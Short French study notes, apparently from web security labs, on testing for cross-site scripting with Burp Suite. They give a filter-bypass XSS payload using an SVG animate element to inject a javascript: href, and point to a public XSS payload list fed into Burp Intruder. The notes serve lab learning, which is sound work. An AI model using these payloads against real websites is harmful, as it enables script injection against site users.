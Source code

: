 XSS: 

essayer d’abord une balise simple script ou html.

Si il y a des filtres de baliser essayer ce genre de payload:


surligné = le payload ajouté sur BURP SUITE repeater

		                                    	—------------------------------------------------------
paylopad pas mal quand les event handlers et attributs href sont sont boqués,


à mettre directement dans l’url, le voici non encodé: 

<svg>
<a>
<animate attributeName=href values=javascript:alert(1) />
<text x=20 y=20>Click me</text>
</a> 

                                        	—------------------------------------------------------

pour un lab particulier j’ai utilisé une liste de payload: https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt

que j’ai mis dans burp intruder, j’ai checké les seuls status 200 et essayé directement dans la webApp, attention aux nombres de requêtes ? 